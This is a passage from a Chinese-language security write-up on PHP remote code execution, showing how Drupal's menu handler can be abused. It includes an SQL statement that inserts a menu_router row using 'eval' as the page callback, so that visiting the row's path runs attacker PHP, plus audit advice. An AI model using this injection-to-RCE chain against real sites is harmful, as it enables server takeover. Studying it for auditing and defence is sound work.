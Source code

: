 首先$path作为变量是可控的

```
function menu_execute_active_handler($path = NULL, $deliver = TRUE) {
 $page_callback_result = _menu_site_is_offline() ? MENU_SITE_OFFLINE : MENU_SITE_ONLINE; 
$read_only_path = !empty($path) ? $path : $_GET['q']; drupal_alter('menu_site_status', $page_callback_result, $read_only_path); 
if ($page_callback_result == MENU_SITE_ONLINE) { 
         if ($router_item = menu_get_item($path)) {
              if ($router_item['access']) { 
                   if ($router_item['include_file']) { 
require_once DRUPAL_ROOT . '/' . $router_item['include_file']; } $page_callback_result = call_user_func_array($router_item['page_callback'], $router_item['page_arguments']);
 } else { $page_callback_result = MENU_ACCESS_DENIED; 
} } else { $page_callback_result = MENU_NOT_FOUND; } } }

if ($router_item['include_file']) { require_once DRUPAL_ROOT . '/' . $router_item['include_file']; }

```

包含了文件

**通过预编译注入向表中插入一个语句**

```
insert into menu_router (path, page_callback, access_callback, include_file) values ('<?php phpinfo();?>','eval', '1', 'modules/php/php.module');

```

path 为要执行的代码； include_file 为 PHP filter Module 的路径； page_callback 为 eval； access_callback 为 1（可以让任意用户访问）。 访问地址即可造成 RCE。

![enter image description here](http://drops.javaweb.org/uploads/images/5d8dea26591f309578433a98d461d1adf4af5e1f.jpg)

0x04 写在最后
---------

* * *

一般来讲，漏洞形成的原因基本都是“数据与代码未有效分离”，然而RCE是个例外，往往出现rce的地方本来就是供程序执行代码的地方，加上如今php程序功能越来越强大，各种地方相互调用，导致组合利用漏洞。所以程序员写起代码来往往都不知道改怎么去防御，或者说防不胜防。 由于其漏洞实现的灵活性，寻找RCE，还是应该从功能入手，去研究代码实现了什么功能，最后变量进入什么函数，被如何调用，而不是简简单单的去进行关键字搜索，毕竟，如今代码审计已经从“哪里有洞”过渡到“如何绕过”的时代了。